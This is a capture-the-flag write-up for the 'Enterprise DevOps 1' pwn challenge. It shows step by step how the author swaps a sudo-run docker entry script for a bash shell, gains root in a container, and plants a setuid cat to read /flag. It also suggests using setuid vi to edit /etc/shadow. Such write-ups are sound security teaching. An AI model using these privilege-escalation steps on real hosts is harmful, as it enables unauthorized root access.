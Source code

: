 ### Enterprise DevOps 1

_After compromising the left-pad NPM package by guessing the author's NPM credentials (which happened to be the name of his cat, Lucy), you ended up with a shell somewhere deep inside a random company's continuous integration infrastructure._

_Your goal is to escalate your privileges through this multi-stage challenge and pivot through the company network. Each stage of the challenge has its own flag - this is part 1._

_See more details on the dedicated challenge page: [https://devops.allesctf.net/](https://devops.allesctf.net/)_

_Your session is stateful. Please share it with your team members - we have limited capacities. Terminate it unless you're currently working on it._

_The flag format is different for this challenge._


**Tags:** _pwn_


#### Solution

After visiting and reading [https://devops.allesctf.net/](https://devops.allesctf.net/) you are given the option to create a VM and start hacking.  My session ID was `0b0bda088a0a8dc59ab4981d`.

Login:

```
ssh 0b0bda088a0a8dc59ab4981d@broker1.allesctf.net
```

No password was required, at this point I have the following prompt:

```
[build@0b0bda088a0a8dc59ab4981d_stage1 ~]$
```

And, I am logged in as the user `build`.

One of the hints from [https://devops.allesctf.net/](https://devops.allesctf.net/):  _Find hidden clues (except for the flag, which is located at an obvious place like /flag)._

Sure enough, there's the flag:

```
$ ls -l /flag

----------. 1 root root 107 May  2 13:02 /flag
```

And yeah:

```
$ cat /flag

cat: /flag: Permission denied
```

Fail.

I tried to `sudo -s` and `su - root` using the password `Lucy` from the description--no luck.  I also tried different ways to spell `Lucy`, also no luck.

Moving on...

The only thing of interest in build's home dir is a `build.sh` script with the following contents:

```
#!/bin/bash

sudo /usr/bin/docker run -it -v /opt/build-input\:/work fedora\:29 /work/run.sh
```

When executed I get an awesome Tetris clone written in BASH:

![](devops1-1.png)

I can run that `sudo` line the following way as well:

```
sudo docker run -it -v /opt/build-input:/work fedora:29 /work/run.sh
```

And that is about it.  Any other alteration (sans remove the `\`'s or adding whitespace) yields a prompt to put in your password for sudo access:

```
We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for build: 
```

Next I looked at `/opt/build-input`:

```
$ ls -ld /opt/build-input/

drwx------. 3 build build 78 Aug 24 23:55 /opt/build-input/

$ ls -l /opt/build-input/

-rwxrwxr-x. 1 root  root    15834 May  2 13:02 run.sh
```

Looks like I own `build-input`, but not `run.sh`, this is easy to fix:

```
$ cd /opt/build-input/
$ mv run.sh foo.sh
$ echo '#!/bin/bash' >run.sh
$ echo 'bash' >>run.sh
$ chmod 775 run.sh
$ ls -l

-rwxrwxr-x. 1 root  root    15834 May  2 13:02 foo.sh
-rwxrwxr-x  1 build build      17 Aug 24 22:15 run.sh
```

Since I own the directory I can change the metadata of a file, e.g. rename `run.sh` to `foo.sh`.  And since I own the directory I can create a new `run.sh` that just executes `bash`.

Now lets try that sudo again:

```
$ sudo docker run -it -v /opt/build-input:/work fedora:29 /work/run.sh
[root@eed1a444ddb6 /]# 
```

I have a root shell (in a container).

The `fedora:29` image does not have the `/` volume mounted, so there's no direct access to `/flag`, but I'm home free at this point.

```
# cp /bin/cat /work
# chmod +s /work/cat
# exit
```

The above copies the `cat` command to `/work` (i.e. `/opt/build-input` outside of the container) and sets the setuid bit.  Since I'm `root` within the container this gets written as a root owned file.  With the setuid bit set, a mere mortal can run the special `cat` command as if root:

```
$ ls -l /opt/build-input/cat

-rwsr-sr-x  1 root  root    52120 Aug 24 23:48 cat
```

Look at them lovely `s`'s.

Capture the flag:

```
$ /opt/build-input/cat /flag

STAGE1_ahpeeHahy7aingea8ahr6

You have successfully compromised this host. It's time to spread your wings!
```

Other commands can be copied over and setuid'd, e.g. `vi` if you want to edit `/etc/shadow` and set root's password.  However this trick does not work with `bash` (it used to, or at least with `sh` and `ksh` many, many years ago).
 























